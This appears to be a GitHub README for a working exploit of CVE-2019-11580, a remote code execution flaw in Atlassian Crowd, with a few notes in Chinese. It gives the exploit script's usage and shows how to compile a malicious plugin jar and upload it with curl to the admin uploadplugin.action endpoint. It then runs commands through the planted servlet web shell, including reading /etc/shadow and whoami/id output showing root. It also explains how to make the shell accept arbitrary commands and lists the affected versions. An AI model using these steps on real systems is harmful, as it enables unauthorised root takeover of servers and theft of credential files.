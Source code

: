 # CVE-2019-11580
## Atlassian Crowd and Crowd Data Center RCE

## Usage:
`python CVE-2019-11580.py http://xx.xx.xx.xx/`

![](./CVE-2019-11580.jpg)

#### Crowd-2.11.0 Vuln_Version Donwload
`https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-2.11.0.tar.gz`

` Powered by Atlassian Crowd Version: 2.11.0 (Build:#725 - 2017-01-11)`

![](./crowd.jpg)

`http://10.10.20.166:8095/crowd/admin/uploadplugin.action`

![](./uploadplugin.jpg)

`http://10.10.20.166:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow`

![](./getshell_success.jpg)



### 0x01 compile for rce.jar
`javac -cp servlet-api.jar com/cdl/shell/exp.java`

`zip -r rce.jar atlassian-plugin.xml ./com`

```
./compile.sh
updating: atlassian-plugin.xml (deflated 54%)
updating: com/ (stored 0%)
updating: com/cdl/ (stored 0%)
updating: com/cdl/shell/ (stored 0%)
updating: com/cdl/shell/exp.java (deflated 59%)
updating: com/cdl/shell/exp.class (deflated 45%)

```
### 0x02 upload rce.jar to crowd/admin/uploadplugin.action
```
curl -k -H "Content-Type: multipart/mixed" \
  --form "file_cdl=@rce.jar" http://10.10.20.166:8095/crowd/admin/uploadplugin.action
  
Installed plugin /opt/atlassian/crowd/apache-tomcat/temp/plugindev-1059463178748466378rce.jar

```

### 0x03 get shell

```
curl "http://10.10.20.166:8095/crowd/plugins/servlet/exp?cmd=whoami"
>>> root

curl "http://10.10.20.166:8095/crowd/plugins/servlet/exp?cmd=id"
>>> uid=0(root) gid=0(root) groups=0(root)

```

##### 自定义cmd值：

```
https://github.com/lc/research/blob/master/CVE-2019-11580/atlassian-shell/com/cdl/shell/Cdl.java
思路参考: https://www.t00ls.net/articles-51978.html
原代码String cmd="whoami";
修改为String cmd=String.valueOf(req.getParameter("cmd"));

```

### vuln version
```
Affected Versions

Fixed Version

2.1.0, 2.1.1, 2.1.2, 2.2.0, 2.2.1, 2.2.2, 2.2.3, 2.2.4, 2.2.5, 2.2.6, 2.2.7, 2.2.8, 2.2.9, 2.3.0, 2.3.1, 2.3.2, 2.3.3, 2.3.4, 2.3.5, 2.3.6, 2.3.7, 2.3.8, 2.3.9, 2.3.10, 2.4.0, 2.4.1, 2.4.2, 2.4.3, 2.4.4, 2.4.5, 2.4.6, 2.4.7, 2.4.8, 2.4.9, 2.4.10, 2.4.11, 2.5.0, 2.5.1, 2.5.2, 2.5.3, 2.5.4, 2.5.5, 2.5.6, 2.5.7, 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6, 2.6.7, 2.7.0, 2.7.1, 2.7.2, 2.8.0, 2.8.1, 2.8.2, 2.8.3, 2.8.4, 2.8.6, 2.8.7, 2.8.8, 2.9.1, 2.9.2, 2.9.3, 2.9.4, 2.9.5, 2.9.6, 2.9.7, 2.10.1, 2.10.2, 2.10.3, 2.10.4, 2.11.0, 2.11.1, 2.11.2, 2.12.0, 2.12.1, 3.0.0, 3.0.1, 3.0.2, 3.0.3, 3.0.4

3.0.5

3.1.0, 3.1.1, 3.1.2, 3.1.3, 3.1.4, 3.1.5

3.1.6

3.2.0, 3.2.1, 3.2.2, 3.2.3, 3.2.4, 3.2.5, 3.2.6, 3.2.7

3.2.8

3.3.0, 3.3.1, 3.3.2, 3.3.3, 3.3.4

3.3.5

3.4.0, 3.4.1, 3.4.2, 3.4.3

3.4.4
```

### 参考链接

```
https://www.t00ls.net/articles-51978.html
https://www.corben.io/atlassian-crowd-rce/
https://github.com/lc/research/tree/master/CVE-2019-11580/atlassian-shell
```
